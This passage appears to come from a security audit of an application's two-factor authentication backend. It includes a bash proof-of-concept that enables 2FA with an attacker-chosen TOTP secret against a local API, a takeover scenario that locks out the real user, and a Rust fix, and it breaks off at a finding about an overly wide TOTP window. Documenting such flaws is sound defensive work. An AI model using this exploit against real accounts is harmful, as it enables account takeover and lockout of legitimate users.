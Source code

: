 
**Exploitation**:
```bash
# Attacker chooses their own secret:
ATTACKER_SECRET="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

# Generate valid TOTP for attacker's secret:
TOTP=$(generate_totp "$ATTACKER_SECRET")  # e.g., "682007"

# Enable 2FA with attacker's secret:
curl -X POST http://localhost:8080/api/2fa/enable \
  -d "{\"secret\":\"$ATTACKER_SECRET\",\"totp_code\":\"$TOTP\",\"password\":\"user_password\"}"

# Result: {"success":true}
# Now attacker knows the secret and can always generate valid codes!
```

**Impact**:
- ✅ SUCCESSFULLY EXPLOITED
- Attacker can enable 2FA with a secret they control
- If attacker has password + session, they can lock out the legitimate user
- Attacker maintains permanent access via their known secret

**Attack Scenario**:
1. Attacker steals user's password and session
2. Attacker enables 2FA with their own secret (AAAAA...)
3. Legitimate user is locked out (doesn't know attacker's secret)
4. Attacker has permanent access using their secret

**Recommendation**:
```rust
// Remove secret from request:
#[derive(Deserialize)]
struct Enable2FARequest {
    totp_code: String,    // Only need to verify they have the code
    password: String,
}

// Server-side should:
// 1. Generate secret in setup (store temporarily in pending_2fa or similar)
// 2. Verify password and code in enable
// 3. Move secret from temporary storage to permanent (totp_secret field)
// 4. Never let client choose the secret
```

---

### VULNERABILITY #4: Extended TOTP Time Window
**Severity**: 🟠 **MEDIUM**
**File**: `backend/src/twofa.rs` lines 121-123  
**CWE**: CWE-326 (Inadequate Encryption Strength)

**Description**:
The TOTP verification accepts codes from a 90-second window instead of the standard 60-second window:
